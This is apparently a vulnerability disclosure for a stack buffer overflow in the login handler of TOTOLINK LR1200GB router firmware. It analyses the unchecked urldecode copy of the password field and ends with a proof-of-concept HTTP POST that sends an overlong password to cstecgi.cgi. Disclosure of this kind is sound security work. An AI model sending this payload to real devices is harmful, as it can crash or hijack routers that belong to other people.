 # TOTOLINK LR1200GB V9.1.0u.6619_B20230130 Stack Overflow

## Product Information

Product: TOTOLINK LR1200GB
Firmware Version: V9.1.0u.6619_B20230130
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

![51d6734d56bebc2b1c77c3f23c5c1aed](uploads/51d6734d56bebc2b1c77c3f23c5c1aed.png)

## Analysis

`v3` obtains the value from the `password` field input by the user and is processed in function `urldecode` . The processed result is stored in `v33` on stack.

![image-20231028055530968](uploads/image-20231028055530968.png)

![image-20231028054948914](uploads/image-20231028054948914.png)

As shown in the two images below, in the function `urldecode`, the processed `password` (`a1`) is written to a buffer (`a2`, `v3`) located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20231028060414311](uploads/image-20231028060414311.png)

![image-20231028061113553](uploads/image-20231028061113553.png)

## POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 408
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

![image-20231028054422613](uploads/image-20231028054422613.png)